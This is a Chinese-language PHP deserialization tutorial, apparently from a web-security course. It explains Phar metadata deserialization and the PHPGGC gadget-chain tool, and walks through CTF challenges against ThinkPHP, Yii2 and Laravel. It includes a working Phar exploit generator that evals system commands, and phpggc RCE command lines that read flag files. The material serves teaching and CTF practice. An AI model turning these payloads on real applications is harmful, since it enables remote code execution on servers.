

# Web攻防-PHP反序列化&Phar文件类&CLI框架类&PHPGGC生成器&TP&Yii&Laravel   78



```
#Phar反序列化
解释：从PHP 5.3开始，引入了类似于JAR的一种打包文件机制。它可以把多个文件存放至同一个文件中，无需解压，PHP就可以进行访问并执行内部语句。

原理：PHP文件系统函数在通过伪协议解析phar文件时，都会将 meta-data进行反序列化操作，受影响的函数如上图；所以当这些函数接收到伪协议处理到 phar 文件的时候，Meta-data 里的序列化字符串就会被反序列化，实现不使用unserialize()函数实现反序列化操作。

利用条件
1.phar文件(任意后缀都可以)能上传至服务器。
2.存在受影响函数，存在可以利用的魔术方法。
生成Phar注意：
php.ini中将Phar.readonly设置为off

[HNCTF 2022 WEEK3]ez_phar
<?php
class Flag{
    public $code;
    public function __destruct(){
        // TODO: Implement __destruct() method.
        eval($this->code);
    }
}
$a=new Flag();
$a->code="system('cat /ffflllaaaggg');";
$phar = new Phar("exp6.phar"); //后缀名必须为phar
$phar->startBuffering();
$phar->setStub("<?php __HALT_COMPILER(); ?>"); //设置stub
$phar->setMetadata($a); //将自定义的meta-data存入manifest
$phar->addFromString("test.txt", "test"); //添加要压缩的文件
$phar->stopBuffering();
?>
upload.php上传文件引用访问触发

白盒代码审计案例：
https://mp.weixin.qq.com/s/2wzaXIpJgYSNnkJgRNUSEg
https://mp.weixin.qq.com/s/Z24A3LYn6P3276v7GqPw4w

#反序列化链项目
-NotSoSecure
https://github.com/NotSoSecure/SerializedPayloadGenerator
为了利用反序列化漏洞，需要设置不同的工具，如 YSoSerial(Java)、YSoSerial.NET、PHPGGC 和它的先决条件。DeserializationHelper 是包含对 YSoSerial(Java)、YSoSerial.Net、PHPGGC 和其他工具的支持的Web界面。使用Web界面，您可以为各种框架生成反序列化payload.
Java – YSoSerial
NET – YSoSerial.NET
PHP – PHPGGC
Python - 原生

-PHPGGC
https://github.com/ambionics/phpggc
PHPGGC是一个包含unserialize()有效载荷的库以及一个从命令行或以编程方式生成它们的工具。当在您没有代码的网站上遇到反序列化时，或者只是在尝试构建漏洞时，此工具允许您生成有效负载，而无需执行查找小工具并将它们组合的繁琐步骤。 它可以看作是frohoff的ysoserial的等价物，但是对于PHP。目前该工具支持的小工具链包括：CodeIgniter4、Doctrine、Drupal7、Guzzle、Laravel、Magento、Monolog、Phalcon、Podio、ThinkPHP、Slim、SwiftMailer、Symfony、Wordpress、Yii和ZendFramework等。

#反序列化框架利用
1、[安洵杯 2019]iamthinking Thinkphp V6.0.X 反序列化
./phpggc ThinkPHP/RCE4 system 'cat /flag' --url

2、CTFSHOW 反序列化 267 Yii2反序列化
弱口令登录后源码提示泄漏
GET：index.php?r=site%2Fabout&view-source
GET：/index.php?r=backdoor/shell&code=
./phpggc Yii2/RCE1 exec 'cp /fla* tt.txt' --base64

3、CTFSHOW 反序列化 271 Laravel反序列化
./phpggc Laravel/RCE2 system "id" --url

```

